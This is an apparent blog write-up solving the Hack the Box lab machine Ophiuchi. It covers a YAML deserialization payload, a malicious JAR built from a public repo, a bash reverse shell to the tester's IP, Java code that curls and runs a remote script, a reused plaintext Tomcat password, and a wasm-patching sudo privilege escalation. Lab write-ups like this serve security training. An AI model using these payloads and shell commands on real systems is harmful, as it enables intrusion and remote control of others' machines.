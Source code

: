 +++
author = "Nick"
categories = ["hack the box", "medium", "golang", "wasm", "YAML", "PHP Deserialization"]
date = 2021-07-03T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/06/opi.png"
slug = "hack-the-box-ophiuchi"
summary = "Welcome back everyone! Today's write-up is for the Hack the Box machine - Ophiuchi. This is listed as a medium Linux machine. Let's get to it! "
tags = ["hack the box", "medium", "golang", "wasm", "YAML", "PHP Deserialization"]
title = "Hack the Box - Ophiuchi"

+++


Welcome back everyone! Today's write-up is for the Hack the Box machine - Ophiuchi. This is listed as a medium Linux machine. Let's get to it!

As usual, we kick it off with an nmap scan. Here are our results:

```
Nmap scan report for 10.10.10.227
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Well, we don't have many options at first glance, let's take a look at what's on 8080. When we load the page, we are greeted with a YAML parser.

![](/images/2021/06/image-47.png)

When we try to use the function, it tells us that the function has been shutdown due to security reasons. Broken YAML parsing is a pretty [well documented](https://www.google.com/search?q=online+yaml+parser+exploit&oq=online+yaml+parser+exploit&aqs=chrome..69i57.4172j0j1&sourceid=chrome&ie=UTF-8) exploit. Even though the site is telling us it's disabled the functionality, we can still test this by setting up a listener with `netcat` or `SimpleHTTPServer` and trying to catch an incoming request.

Heres our PoC code:
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.101/"]
  ]]
]
```

Now we can just setup a listener.

Command:
`nc -lvnp 80`

We enter our code into the parser and check our lisener.

![](/images/2021/06/image-48.png)

Sure enough, we have a call back. Now we can work to weaponize it. [This repo](https://github.com/artsploit/yaml-payload) in particular helps us do that quite nicely. First we'll clone the repo.

Command:
`git clone https://github.com/artsploit/yaml-payload`

Now we have to put our reverse shell code into the `AwesomeScriptEngineFactory.java` file. In this case, I used the basic `Bash` shell:

`bash -i >& /dev/tcp/10.10.14.101/6969 0>&1`

Now we just need to compile it into a `.jar` and call it from the YAML parser.

Command:
```
cd yaml-payload
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
Now we can host the file with `SimpleHTTPServer`.

Command:
`python -m SimpleHTTPServer`

Next, we spin up a `netcat` listener on port 6969 to catch the incoming connection.

Command:
`nc -lvnp 6969`

Now that we've done all the steps as per the Git repo, we can put our malicious YAML into the parser and see if it send us a shell back. Our total payload looks like this:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.101/yaml-payload.jar"]
  ]]
]
```

We see the `.jar` file being called, but we're not catching a shell. There could be a few reasons why we're not getting one. One of the easiest things to test is if our raw bash command isn't being executed. So to test this we'll just put our command into a small shell script, and have the server download and execute the script.

![](/images/2021/06/opi_shell.gif)

That methodology worked! So the code we ended up using inside our `.java` was:

```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl 10.10.14.101/s.sh -o /tmp/s.sh");
            // not this: Runtime.getRuntime().exec("curl 10.10.14.101/s.sh -o /tmp/s.sh && bash /tmp/s.sh");
            Runtime.getRuntime().exec("bash /tmp/s.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

Now that we have a foothold, we can start enumerating in order to escalate. We don't have the ability to run scripts, so `linpeas.sh` was out. After a grueling amount of time parsing this incredibly unstable machine by hand, we find some creds in the default `tomcat-user` file.

![](/images/2021/06/image-49.png)

Great, now we have a user `admin` and the password `whythereisalimit`. Now we can try to use these credentials to `SSH` into the machine.

![](/images/2021/06/image-50.png)

We are able to re-use those credentials and log in! We snag our `user.txt` file and start enumerating for a path to root. We check our `sudo -l` options and we have an item listed.

![](/images/2021/06/image-51.png)

We have this `index.go` file listed.

![](/images/2021/06/image-52.png)

We see something right off the bat, the path for `deploy.sh` is not tight, meaning we can have it call any script called deploy.sh. The catch here is that we can only execute this portion of the code if the value of `f` is equal to `1`. The application is reading the `main.wasm` file and checking the values. We need to modify this file in order to make `f` equal `1`. In order to do that, we need to take the `main.wasm` file and convert it to a `.wat` file. This is essentially the instructions for the interactions of the library. First, let's download the `main.wasm` file to our system.

Command:
`cat main.wasm | nc 10.10.14.101 6969`

Now we cat it on our system.

Command:
`nc -lvnp 6969 > main.wasm`

With that file on our machine, we need to convert it to a `.wat`. There some good information on this process [here](https://developer.mozilla.org/en-US/docs/WebAssembly/Text_format_to_wasm). We can leverage the tool listed from the Github to convert the file.

Commands:
`wget https://github.com/WebAssembly/wabt/releases/download/1.0.23/wabt-1.0.23-ubuntu.tar.gz`
`gunzip -v wabt-1.0.23-ubuntu.tar.gz`
`tar -xf wabt-1.0.23-ubuntu.tar`

Now with the toolset decompressed, we can run `main.wasm` file through to convert it after we copy it to our working directory of choice.

Command:
`./wasm2wat main.wasm -o main.wat`

![](/images/2021/06/image-53.png)

We see the output of the function. On the second line is the `$info` instance, we see that it has an `int 32` value of `0`, we need to change this to `1`. I use `nano` most often.

Command:
`nano main.wat`

![](/images/2021/06/image-54.png)

With that value changed, we need to convert the file back to a `.wasm`.

Command:
`mv main.wasm main.wasm.bak`
`wat2wasm main.wat -o main.wasm`

Now, with our new `main.wasm` file, we need to put it back on the target server. In this case, I just hosted the file via `SimpleHTTPServer` and used `wget` to bring it down to a directory under `/tmp`.

We can now create a `deploy.sh` script in our working directory on the server. Inside the script should be the commands we want to run as `root`. To test the idea, we can simply echo the user with `echo $(id)`. Here's our script

```bash
#!/bin/bash
echo $(id)
```

Then we call the files with `sudo`.

Command:
`sudo -u root /usr/bin/go run /opt/wasm-functions/index.go`

![](/images/2021/06/image-55.png)

Perfect, now we can cat out the contents of the `root.txt` flag!

![](/images/2021/06/image-56.png)

Now, you could do something more persistant here. Copying over your `SSH` key, creating another shell or anything else really.

If this write-up was helpful, send some respect my way: https://app.hackthebox.eu/profile/95635




